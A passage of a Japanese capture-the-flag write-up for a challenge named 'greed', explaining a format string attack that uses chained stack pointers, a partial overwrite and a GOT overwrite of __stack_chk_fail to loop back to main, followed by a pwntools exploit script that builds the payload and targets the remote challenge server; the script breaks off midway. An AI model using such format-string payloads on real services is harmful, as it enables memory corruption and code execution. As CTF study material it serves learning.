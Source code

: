 上記のようなstack上のポインタの連鎖はだいたい見つけられる。
(パスを格納するところとかで頻出)
今回はaddr Aにあたる引数を`%25$n`、addr Bにあたる引数を`%51$n`で指定できた。

しかしながら、このままでは何回試行してもリターンアドレスを書き換えられない。
というのも、`%X$`を使って引数を直接指定するタイプの書式指定子はすべて同時に読み込まれてしまう。addr Bをpartical overwriteした後にこれを書式指定子で参照したければ、addr Aの位置にある引数の指定には`%X$`の形式を使ってはいけない。ペイロードがやや長くなるが`%c%c%c...%c%n`のように25個分書式指定子を重ねる必要がある。

上記のテクニックで今回は2バイトのpartical overwriteを実行する。
stack alignmentにより下位4ビットは固定であるので実際は16-4=12ビットのエントロピーが存在する。
確率にして1/4096なのでそこまで難しくはないはず。


## Exploit
解説ではリターンアドレスを書き換えることについて言及したが、実際には`__stack_chk_fail()`のGOTを`main()`に書き換えつつ(アドレス既知なのでエントロピーなし)canaryを運任せに書き換える方が堅実だと思う。FSAでstackのアドレスをリークしつつret2mainを達成できれば、以降はcanaryを確実に壊して再びmainの頭に復帰できる。

有難いことに`system()`のシンボルがバイナリにあったので拝借する。

```py
from pwn import *
import sys

def guess():
    elf = ELF("chall_patched")

    # io = process(elf.path)
    io = remote('greed.sdc.tf', 1337)

    context.arch = 'amd64'
    context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

    # gdb.attach(io, gdbscript='b *0x0000000000400938')

    p = b'%c' * 23
    p += b'%%%dc%%hn' % (0x0708 - 23)
    p += b'%51$n'
    p += b'%%%dc%%18$hn' % ((elf.sym["main"] & 0xffff) - 0x0708)
    p += b'%1$p'

    p += b'\x00' * (0x50 - len(p))
    p += p64(elf.got["__stack_chk_fail"])

    io.sendlineafter(b'want?\n', b'-100000')
    io.sendlineafter(b'audience?\n', p)

    # sleep(1)
    r = io.recvrepeat(10)

    # if r[-4:] == b'dff0':
    if len(r) > 2051:
        
        if b'terminated\n' in r:
            io.close()
            return 1
        print(r)
        stack_addr = int(r[-175:-163].decode(), 16)
        print(f'stack_addr = {hex(stack_addr)}')

        canary_addr = stack_addr + 0x2688
        binsh_addr = stack_addr + 0x2668
        pop5_ret_addr = 0x004009db

        p = b'%13$n'
        p += b'A'
```